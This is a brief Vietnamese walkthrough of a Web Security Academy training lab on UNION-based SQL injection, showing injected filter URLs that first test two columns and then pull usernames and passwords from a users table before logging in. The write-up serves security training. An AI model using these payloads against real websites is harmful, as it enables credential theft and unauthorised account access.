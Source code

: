 ## SQL injection UNION attack, retrieving data from other tables

Ở đây chúng ta đã biết có 2 column như trong như phần description của lab có bảo là sử dụng table là **users** và có 2 trường là **username** và **password**, chúng ta sẽ select bừa các trường giá trị nào đó test thử xem web sẽ load như nào.

> Ví dụ: https://acd51f7e1f13167e80c95424009300ec.web-security-academy.net/filter?+category=Corporate+gifts%27+UNION+SELECT+%27abc%27,%27def%27--

(Chúng ta sẽ thấy 2 trường mà chúng ta select có xuất hiện thêm ở trên list category, chứng tỏ lỗi hiển thị sẽ nằm ở đây)

![](/imgs/SQL-Injection/6.png?raw=true)

Ok web load ổn, chúng ta sẽ tiến hành select username và password từ bảng **users**

```markdown
https://acd51f7e1f13167e80c95424009300ec.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+username,password+FROM+users--
```

![](/imgs/SQL-Injection/7.png?raw=true)

Chúng ta sẽ thu được 3 user là wiener, admin và carlos.

Vào phần My Account và Login vào sẽ solve lab.

![](/imgs/SQL-Injection/8.png?raw=true)

